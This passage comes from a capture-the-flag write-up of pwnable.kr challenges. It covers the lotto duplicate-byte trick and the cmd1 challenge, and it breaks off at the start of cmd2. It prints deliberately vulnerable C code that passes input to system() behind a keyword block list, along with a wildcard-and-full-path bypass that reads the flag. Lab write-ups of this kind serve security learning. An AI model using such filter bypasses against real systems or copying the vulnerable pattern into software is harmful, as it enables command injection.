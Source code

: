 ```
```
This code means if what you entered is in lotto, for example lotto is !"#$%&, and you enter ######, it's ok. So just try ###### until we get flag.
```
- Select Menu -
1. Play Lotto
2. Help
3. Exit
1
Submit your 6 lotto bytes : !!!!!!
Lotto Start!
sorry mom... I FORGOT to check duplicate numbers... :(
```


## 0x0E cmd1
```
Mommy! what is PATH environment in Linux?

ssh cmd1@pwnable.kr -p2222 (pw:guest)
```
The source code `cmd1.c`
```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
What we enter should not include `flag`, `sh`, `tmp`, and the `PATH` is of no use.
But if we pass the validate, what we entered will be executed. So, we can replace `flag` by `fla*`, and use full path which there's no need to use `PATH` in environment variable.
```
cmd1@ubuntu:~$ ./cmd1 "/bin/cat fla*"
mommy now I get what PATH environment is for :)
```


## 0x0F cmd2
```
Daddy bought me a system command shell.
but he put some filters to prevent me from playing with it without his permission...
but I wanna play anytime I want!

ssh cmd2@pwnable.kr -p2222 (pw:flag of cmd1)
```
The source code `cmd2.c`
```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "/")!=0;
```